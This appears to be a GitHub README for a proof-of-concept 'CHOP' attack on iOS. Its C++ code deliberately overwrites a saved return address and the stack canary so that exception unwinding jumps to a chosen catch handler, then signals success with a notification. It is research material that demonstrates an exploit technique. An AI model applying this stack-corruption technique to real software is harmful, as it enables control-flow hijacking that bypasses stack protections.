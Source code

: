 # Proof-of-Concept of CHOP on iOS

This is a straightforward implementation of a chop attack as part of an iOS app. The main code is in [ios-chop-tester/chop.cpp]:

```cpp
extern "C"
void Log(const char *message);
extern "C"
void Success();
extern "C"
void Failure();

void catches () {
   try {
       throw 1;
   }
   catch (...) {
       Success();
       _exit(1);
   }
}

void leaf_fn_spilling_lr () {
    Log(".");
}

void vuln(int op) {
    void * buf[1];
    buf[3] = (char *) catches + (size_t) 36;   // overwrite the saved return address - depending on your system, the offset may need to be changed
    buf[2] = (void *) 0xdeadbeef; // clobber the canary, because our exploit would do that too

    leaf_fn_spilling_lr();

    if (op == 1)
        throw 1;
}

void poc() {
    try {
        vuln(1);
    }
    catch (...) {
        Failure();
    }
}
```

A leaf function is used to force spilling of the link register to the stack and then overwritten with the address of the landing pad in `catches`.

## Building

Building this app requires Xcode. After setting the development team id, the app can be built by choosing a real iPhone as a target and clicking the play button.
Because of the way the iOS simulator works on x86, the app does not work on intel-based macs in the simulator.

## Running

After allowing notifications and pressing anywhere in the app, the vulnerability is triggered. When the exploit payload works, a notification is shown:

![notification](notification.jpg)
